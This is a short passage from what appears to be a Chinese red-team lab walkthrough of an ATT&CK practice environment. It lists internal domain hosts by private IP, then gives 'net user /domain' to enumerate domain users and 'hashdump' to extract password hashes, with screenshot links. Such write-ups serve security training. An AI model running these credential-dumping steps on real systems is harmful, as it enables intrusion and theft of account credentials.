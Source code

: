 ![image-20231117155112423](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117155112423.png)

得到域内其他主机地址

- OWA：**192.168.52.138**
- ROOT-TVI862UBEH：**192.168.52.141**

**查看域内用户**

```bash
net user /domain
```

**获取主机用户密码哈希**

```bash
hashdump
```



![image-20231117155419379](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117155419379.png)
